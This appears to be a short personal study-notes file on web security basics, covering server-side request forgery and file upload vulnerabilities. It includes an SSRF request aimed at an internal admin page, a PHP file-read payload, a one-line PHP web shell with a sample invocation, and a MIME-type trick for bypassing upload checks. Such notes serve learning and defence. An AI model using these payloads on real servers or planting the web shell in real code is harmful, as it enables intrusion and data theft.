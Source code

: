 ```yaml
---

# Table of Contents

---
```

- [SSRF](https://github.com/carnifex17/Cybersecurity-Notes/blob/main/Web%20Security%20Basics.md#ssrf)
- [File Upload](https://github.com/carnifex17/Cybersecurity-Notes/blob/main/Web%20Security%20Basics.md#file-upload-vulnerability)
- []()
- []()
---
# Web Security Basics
---

## SSRF

**SSRF - Server-Side Request Forgery is the attack against the server, the attacker causes the application to make an HTTP request back to the server that is hosting the application**

---

### Example
An attacker can submit the following request to exploit the SSRF vulnerability, and access the administrative interface:
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

---

## File Upload Vulnerability

**File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size.**

---

### Payloads

Read arbitrary files from the server's filesystem:
```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```
---
Easy oneliner web-shell:
```php
<?php echo system($_GET['command']); ?>
```
This allows you to pass an arbitrary system command via a query parameter as follows:
```
GET /example/exploit.php?command=id HTTP/1.1
```
---

### Security Bypass

1. **MIME Type**. Your browser could check you file type with Content-Type header with different [MIME](https://www.sitepoint.com/mime-types-complete-list/) type value, but if you change it, you also could bypass it

---







--- 
